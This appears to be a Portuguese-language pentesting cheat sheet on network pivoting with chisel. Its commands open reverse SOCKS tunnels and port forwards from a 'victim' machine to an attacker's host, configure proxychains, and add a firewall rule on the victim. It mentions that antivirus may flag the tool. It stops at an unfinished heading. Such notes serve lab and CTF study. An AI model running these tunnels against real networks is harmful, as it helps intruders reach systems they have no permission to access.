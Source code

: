 Tunelamento e encaminhamento de portas
========================

## Comandos mais utilizados

**Cenário Windows**

No  Windows utilizamos o chisel, porém em ambientes mais maduros o Antivírus pega essa ferramenta. [Vide exemplo de como usá-la](#chisel)

    chisel.exe client <ip_atacante>:<porta> -R:<porta>:socks

Na máquina do atacante (Kali Linux)

    chisel server -p <porta> --socks5 --reverse

Depois é necessário configurar o proxychains:

    echo "socks5 127.0.0.1 5000" >> /etc/proxychains.conf
    #Comentar a diretiva "proxy_dns"

**Cenário Linux**




## Chisel

Referência: <https://medium.com/geekculture/chisel-network-tunneling-on-steroids-a28e6273c683>

Encaminhamento de porta dinâmico

Na máquina vítima, executar o seguinte comando:

    chisel client 192.168.49.120:3477 R:5000:socks
    # O IP informado no comando é o IP da máquina atacante
    
    
    # O comando abaixo eh para redirecionar portas locais para a maquina do atacante:
    # client <IP atacante>:<porta atacante> R (remote) <porta vitima>:interface do_atacante:porta_atacante
    ./chisel.exe client 10.10.14.8:9999 R:5000:127.0.0.1:8888
    
    
Vale considera que precisamos liberar no firewall as portas pelas quais vamos receber a conexão:

    netsh advfirewall firewall add rule name="forward_port_rule" protocol=TCP dir=in localip=10.10.10.204 localport=445 action=allow
    # o IP informado neste comando é o mesmo IP da máquina da vítima.
    
Na máquina do atacante, configurar da seguinte maneira:
    